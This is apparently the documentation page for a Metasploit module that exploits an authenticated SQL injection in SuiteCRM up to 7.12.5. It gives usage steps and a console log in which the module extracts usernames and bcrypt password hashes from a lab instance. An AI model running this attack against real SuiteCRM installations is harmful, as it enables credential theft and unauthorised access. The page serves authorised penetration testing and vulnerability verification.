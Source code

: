 ## Description
This module exploits an authenticated SQL injection in SuiteCRM installations below or equal to version 7.12.5. The 
vulnerability allows for union and blind boolean based SQLi to be exploited in order to collect usernames and password 
hashes from the SuiteCRM database.

## Vulnerable Application

SuiteCRM 7.12.5

## Verification Steps

1. Install vulnerable application
1. Install database 
1. Start up metasploit
1. Do: ```use scanner/http/suite_crm_export_sqli```
1. Do: ```set RHOSTS [IP]```
1. Configure a user and password list by setting `USERNAME` and `PASSWORD`.
1. Do: ```run```

## Scenarios

```
msf6 auxiliary(scanner/http/suite_crm_export_sqli) > set rhosts 192.168.123.207
rhosts => 192.168.123.207
msf6 auxiliary(scanner/http/suite_crm_export_sqli) > set username admin
username => admin
msf6 auxiliary(scanner/http/suite_crm_export_sqli) > set password admin
password => admin
msf6 auxiliary(scanner/http/suite_crm_export_sqli) > run

[*] Authenticating as admin
[+] Authenticated as: admin
[+] admin has administrative rights.
[+] Found user: admin
[+] Found user: msfuser
[+] Found user: JoeDerp
Got char: 0x69. Hash for user admin is now 0x2432792431302454716a4b5a346457474e59514769774475357153557530524973414f37755052644976583767496d3470776a6e2e3274345a597669
[+] User admin has user_hash: $2y$10$TqjKZ4dWGNYQGiwDu5qSUu0RIsAO7uPRdIvX7gIm4pwjn.2t4ZYvi
Got char: 0x65. Hash for user msfuser is now 0x243279243130246b723374577a535a44624d395f792e464c5a4b66326573433161676879454d613465384b6f7673434355455f47486c426a6b674c65
[+] User msfuser has user_hash: $2y$10$kr3tWzSZDbM9_y.FLZKf2esC1aghyEMa4e8KovsCCUE_GHlBjkgLe
Got char: 0x6d. Hash for user JoeDerp is now 0x24327924313024517434696c6f65574951686756583835634d4e486965475658596c7476435f37664461593179354d684d3930535a70454e534a436d
[+] User JoeDerp has user_hash: $2y$10$Qt4iloeWIQhgVX85cMNHieGVXYltvC_7fDaY1y5MhM90SZpENSJCm
SuiteCRM Users and Password Hashes
==================================

 user_name  password_hash
 ---------  -------------
 JoeDerp   $2y$10$Qt4iloeWIQhgVX85cMNHieGVXYltvC_7fDaY1y5MhM90SZpENSJCm
 admin     $2y$10$TqjKZ4dWGNYQGiwDu5qSUu0RIsAO7uPRdIvX7gIm4pwjn.2t4ZYvi
 msfuser   $2y$10$kr3tWzSZDbM9_y.FLZKf2esC1aghyEMa4e8KovsCCUE_GHlBjkgLe
[*] Scanned 1 of 1 hosts (100% complete)
[*] Auxiliary module execution completed
```